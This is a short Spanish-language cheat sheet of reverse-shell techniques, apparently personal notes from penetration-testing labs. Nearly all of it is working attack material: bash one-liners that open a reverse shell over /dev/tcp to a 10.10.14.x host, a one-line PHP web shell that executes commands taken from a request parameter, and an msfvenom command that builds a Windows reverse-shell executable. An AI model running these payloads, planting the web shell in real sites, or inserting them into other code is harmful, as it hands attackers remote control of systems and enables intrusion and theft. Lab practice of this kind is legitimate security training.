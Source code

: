# RCE - Reverse Shell

Aquí iremos describiendo las diferentes maneras de crear SHELLs a medida que nos las encontremos.

## LINUX

Diferentes maneras de crear shells en linux.

La manera mas directa de crear una reverse shell en Linux es:
<pre>
bash -i >& /dev/tcp/10.10.14.49/443 0>&1
</pre>

Aunque a veces es mejor indicárselo como parámetro:

<pre>
bash -c "bash -i >& /dev/tcp/10.10.14.49/443 0>&1"
</pre>

## PHP

Ejecución de comandos

~~~
  <?php system($_REQUEST["cmd"]); ?>
~~~

## MSFVENOM

### Fichero EXE
<pre>
  msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.51 LPORT=443 -f exe -o reverse.exe
</pre>
